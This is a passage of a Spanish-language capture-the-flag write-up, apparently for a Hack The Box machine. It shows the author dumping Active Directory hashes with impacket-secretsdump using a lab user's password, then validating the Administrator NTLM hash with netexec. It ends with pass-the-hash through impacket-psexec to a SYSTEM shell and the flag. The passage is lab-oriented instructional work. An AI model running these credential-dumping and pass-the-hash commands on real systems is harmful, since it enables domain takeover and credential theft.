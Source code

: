 ``impacket-secretsdump DC=administrator,DC=htb/'ethan':'limpbizkit'@'10.10.11.42'``

![Pasted image 20250407175925](https://github.com/user-attachments/assets/cde60685-52db-493e-87e6-4dc70e147c83)

Cogemos el hash NTLM de Administrator y nos lo guardamos (``3dc553ce4b9fd20bd016e098d2d2fd2e``). Podríamos intentar crackearlo, o podemos hacer directamente pass the hash.

Vamos a validar este hash NTLM para el usuario Administrador.

``netexec smb 10.10.11.42 -u Administrator -H ':3dc553ce4b9fd20bd016e098d2d2fd2e'``

![Pasted image 20250407184233](https://github.com/user-attachments/assets/a0ebfb8e-15e6-430b-9e3d-a4aee5730935)

Tenemos Pwn3d!, y por tanto, podemos hacer uso de psexec o wmiexec.

``impacket-psexec administrator@10.10.11.42 -hashes ':3dc553ce4b9fd20bd016e098d2d2fd2e'``

![Pasted image 20250407184431](https://github.com/user-attachments/assets/98d6552c-49e7-4dd8-8c6a-2f0023dd96a8)

Estamos dentro de la máquina objetivo como NtAuthority\system.

En C:\Users\Administrator\Desktop recogemos la flag de administrador.

![Pasted image 20250407184548](https://github.com/user-attachments/assets/246bd324-79f0-40f2-844e-9984820ee068)


